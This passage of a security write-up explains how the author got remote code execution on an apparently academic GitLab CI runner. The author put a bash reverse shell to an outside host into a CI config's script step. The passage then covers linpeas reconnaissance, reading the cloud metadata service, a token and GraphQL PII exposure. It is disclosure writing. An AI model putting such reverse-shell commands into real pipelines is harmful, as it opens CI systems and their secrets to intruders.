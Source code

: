 ```yaml
checker:
    stage: test
    image:
        name: <REDACTED>
    script:
        - echo ""

```

Right from the start we see an injection point under `script`.
I modified the CI to use as a script the most basic reverse shell one can find on https://revshell.com.
The end result looked something like this.

```yaml
checker:
    stage: test
    image:
        name: <REDACTED>
    script:
        - /bin/bash -i >& /dev/tcp/<my_ip>/5001 0>&1
```

I commited and pushed the change and then waited...
Soon enough, the connection was established :)

![revserse shell screen capture](/posts/imgs/rev_shell.png)

To my surprise, only 5 minutes from reading the article [1] I had a reverse shell.

### Container Escape 101 and Shenanigans

Ar first I tried to escape the obvious docker container I was running in.
However, this rendered no results :(.
I won't go into the details of what I tried here, as it was a basic container-escape attempt most readers probably are common with.

Thinking of other thing I might be able to do I tried making the workflow use other containers, I knew existed. Again, hit the wall with this path.

Using linpeas, I discovered a few interesting tidbits of information:

* Some metadata from: http://169.254.169.254/openstack/latest/meta_data.json. Nothing too special here, but at least I knew who to contact to report this. :)
* Some `graphql` endpoints, which told me the instance has its GraphQL API enabled. I tested the API too, and found some interesting things there as well. (PII disclosure for unauth users)
* A Github token, but very well configured privilege-wise.

### Got Impact, Bro?

Sooo, is this everything we can find so far?
At the end of the day, it is kind of the role of a CI to execute the students code, so nothing new under the sun that I got RCE.
I could've got the same RCE if my assignment code, written in C, created a reverse shell too.
Of course, I found some things inspecting the GraphQL API, but this was out of the scope of this endeavour.
